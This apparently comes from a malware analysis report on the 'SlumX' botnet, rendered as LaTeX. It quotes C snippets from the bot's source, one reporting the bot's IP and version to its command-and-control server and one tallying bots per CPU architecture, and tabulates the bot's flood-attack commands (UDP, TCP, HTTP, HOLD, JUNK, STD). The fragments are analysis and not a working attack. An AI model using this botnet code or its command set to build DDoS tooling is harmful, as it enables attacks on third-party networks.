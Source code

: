 \documentclass[12pt,letterpaper]{report}
\begin{document}
\begin{lstlisting}[language=C, caption=Bot Identification Message]
sockprintf(mainCommSock, "\x1b[1;32mKansen shita\x1b[0;33m > \x1b[1;32m[\x1b[0;37m%s\x1b[1;32m]  \x1b[0m", 
    (char *)inet_ntoa(ourIP), (char *)VERSION);
\end{lstlisting}
\begin{center}\small Code: message sent by the bot to the C\&C server, identifying architecture and version.\end{center}

The implementation also has the functionality to count the number of bots per architecture type. 

\begin{lstlisting}[language=C, caption=Architecture-Specific Device Counting]
sprintf(botnet1, "\x1b[1;37m Bots Mips \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", mips());
sprintf(botnet2, "\x1b[1;37m Bots X86 \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", x86());
sprintf(botnet3, "\x1b[1;37m Bots PPC \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", ppc());
sprintf(botnet4, "\x1b[1;37m Bots SPC \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", spc());
sprintf(botnet5, "\x1b[1;37m Bots Arm \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", arm());
sprintf(botnet6, "\x1b[1;37m Bots SH4 \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", sh4());
\end{lstlisting}
\begin{center}\small Code: counts the number of bots connected per architecture on the C\&C server.\end{center}

\subsection{Command Structure}

The command structure implements multiple attack vectors and control functions as shown in Table \ref{tab:commands}:

\begin{table}[H]
\centering
\caption{SlumX Command Reference}
\label{tab:commands}
\begin{tabular}{|l|l|p{6cm}|}
\hline
\textbf{Command} & \textbf{Parameters} & \textbf{Description} \\
\hline
UDP & IP PORT TIME SPOOFED SIZE & UDP flood attack \\
TCP & IP PORT TIME FLAGS & TCP flood attack \\
HTTP & IP PORT TIME & HTTP-based flood \\
HOLD & IP PORT TIME & Connection holding attack \\
JUNK & IP PORT TIME & Random data flood \\
CNC & IP PORT TIME & C\&C server stress test \\
STD & IP PORT TIME & Standard flood attack \\
Die & - & Terminate all attacks \\
HANG & - & Terminate bot process \\
\hline
\end{tabular}
\end{table}
\end{document}

